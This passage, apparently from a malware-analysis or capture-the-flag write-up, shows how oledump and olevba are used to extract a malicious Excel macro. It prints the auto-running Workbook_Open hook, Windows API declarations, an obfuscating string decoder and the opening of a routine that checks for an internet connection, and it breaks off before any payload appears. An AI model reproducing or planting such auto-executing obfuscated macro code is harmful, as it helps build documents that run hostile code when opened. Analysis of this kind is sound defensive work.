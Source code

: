 Notice that we have 2 VBA projects here, project ***F*** and project ***ThisWorkBook***, but the script source was at ***Sheet1***, take a look at the open function:

```java
Sub Workbook_Open()
Sheet1.folderol
End Sub
```


But the oledump was very vague here, we just know that something called ***Sheet1.folderol*** is being called when the macro run, let's dump the whole code using ***olevba***

## Olevba

```
olevba report.xls > output
```
That give to us a lot of useful information about the VB code inside, but I will stick in ***Sheet1*** code, because it's where the function ***folderol*** is found.


```java
Private Declare Function InternetGetConnectedState Lib "wininet.dll" _
(ByRef dwflags As Long, ByVal dwReserved As Long) As Long

Private Declare PtrSafe Function mciSendString Lib "winmm.dll" Alias _
   "mciSendStringA" (ByVal lpstrCommand As String, ByVal _
   lpstrReturnString As Any, ByVal uReturnLength As Long, ByVal _
   hwndCallback As Long) As Long

Private Declare Function GetShortPathName Lib "kernel32" Alias "GetShortPathNameA" _
    (ByVal lpszLongPath As String, ByVal lpszShortPath As String, ByVal lBuffer As Long) As Long

Public Function GetInternetConnectedState() As Boolean
  GetInternetConnectedState = InternetGetConnectedState(0&, 0&)
End Function

Function rigmarole(es As String) As String
    Dim furphy As String
    Dim c As Integer
    Dim s As String
    Dim cc As Integer
    furphy = ""
    For i = 1 To Len(es) Step 4
        c = CDec("&H" & Mid(es, i, 2))
        s = CDec("&H" & Mid(es, i + 2, 2))
        cc = c - s
        furphy = furphy + Chr(cc)
    Next i
    rigmarole = furphy
End Function

Function folderol()
    Dim wabbit() As Byte
    Dim fn As Integer: fn = FreeFile
    Dim onzo() As String
    Dim mf As String
    Dim xertz As Variant
    
    onzo = Split(F.L, ".")
    
    If GetInternetConnectedState = False Then
        MsgBox "Cannot establish Internet connection.", vbCritical, "Error"
        End
    End If

```